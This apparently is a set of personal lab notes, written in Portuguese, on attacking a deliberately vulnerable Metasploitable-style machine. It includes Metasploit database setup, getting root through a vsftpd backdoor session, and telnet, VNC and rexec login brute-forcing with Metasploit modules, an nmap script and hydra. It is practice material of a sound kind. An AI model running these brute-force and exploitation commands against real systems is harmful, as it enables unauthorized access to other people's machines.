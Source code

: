  Conectando no Bd (Parte mais chata)

sudo apt install postgresql postgresql-contrib &&
sudo service postgresql start

msfdb init
---- dentro do MSFCONSOLE
msfconsole
db_connect msf:msf@127.0.0.1:5432/msf
------------------------------
# criando workspace desse computador
![image](https://github.com/user-attachments/assets/c79ab59f-974d-4781-bb66-693c1e4cff30)
# serviços
![image](https://github.com/user-attachments/assets/e2602863-3e4e-426a-a54a-eca74d17c896)
# informaçoes de host
![image](https://github.com/user-attachments/assets/121e0dc0-f0ed-43af-81b0-7d5af6a9aaee)
# Procurando diretorios escondidos
![image](https://github.com/user-attachments/assets/f4ec5416-ea24-4f5a-8234-1894a40596b9)


Depois de conseguir acesso como root usando o payload de:
CRTL + Z ;
Y ;

sessions
para acessar a sessao ;
sessions -i 2 ;

![image](https://github.com/user-attachments/assets/e4c0a2cc-9ec0-4e06-9f0f-3e3448ace42d)


```bash
meu ip: 177.67.136.88
ip kali: 172.24.49.254
ip meta : 192.168.100.102

PAYLOAD cmd/unix/interact = vsft 3.2.4
PAYLOAD auxiliary/scanner/telnet/telnet_login = telnet 23

PAYLOAD scanner/vnc/vnc_login = VNC  ~~~ depois entrar com vncviewer 192.168.100.102:5900 :password

nmap -p 512 --script rexec-brute -v 192.168.100.102 ~~~~ pesquisar rexec_login e usar uns dos logins

┌──(luan㉿192.168.100.102)-[~/Desktop/porta_512_logins]
└─$ hydra -L /home/luan/Desktop/porta_512_logins/usuarios_512.txt -P /home/luan/Desktop/porta_512_logins/passwd_512.txt -vV 192.168.100.102 rexec

``` 
